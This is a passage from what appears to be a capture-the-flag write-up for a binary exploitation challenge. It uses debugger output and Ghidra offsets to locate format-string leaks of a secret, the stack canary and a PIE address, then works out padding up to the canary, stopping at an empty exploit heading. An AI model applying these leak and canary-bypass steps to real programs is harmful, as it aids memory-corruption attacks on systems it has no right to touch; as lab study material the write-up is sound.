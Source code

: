 ```python
pwndbg> tele $rsp 30
00:0000│ rsp 0x7fffffffdc60 —▸ 0x7fffffffedd9 ◂— 0x474458006f6b6f79 /* 'yoko' */
01:0008│-038 0x7fffffffdc68 ◂— 0x0
02:0010│-030 0x7fffffffdc70 ◂— 0x0
03:0018│-028 0x7fffffffdc78 ◂— 0x610000000000
04:0020│-020 0x7fffffffdc80 ◂— 0x0
... ↓        2 skipped
07:0038│-008 0x7fffffffdc98 ◂— 0xcb1f6510ae22e500
08:0040│ rbp 0x7fffffffdca0 ◂— 0x1
09:0048│+008 0x7fffffffdca8 —▸ 0x7ffff7def6ca (__libc_start_call_main+122) ◂— mov edi, eax
0a:0050│+010 0x7fffffffdcb0 ◂— 0x0
0b:0058│+018 0x7fffffffdcb8 —▸ 0x555555555374 (main) ◂— endbr64 
0c:0060│+020 0x7fffffffdcc0 ◂— 0x100000000
```

```python
pwndbg> p 0x7fffffffdc60-0x7fffffffdcb8
$1 = -88
```
since top of the stack is the secret message, and %6$p is the start of rsp
```python
>>> 88//8 + 6
17
```
we can confirm that %17$p is the main address
### Key Findings

- The secret message is found at `%6$s`.
- The canary value is at `%13$p`.
- A PIE address is at `%17$p`.

### finding padding till canary

```python
Stack[-0x10] canary
Stack[-0x35] buffer
```
using ghidra it will show the offsets of buffer and canary
we can find the distance between
```python
>>> 0x35 - 0x10
37
>>> hex(37)
'0x25'
```

To find the padding from padding + canary, we need to understand the stack arrangment
```
+-----------------+
|                 |
| local variables |
|                 |
+-----------------+
|  stack canary   |
+-----------------+
|    saved RBP    |
+-----------------+
| return address  |
+-----------------+
```
so after the canary it will be the saved RBP
so the padding will be 8 characters
## exploit
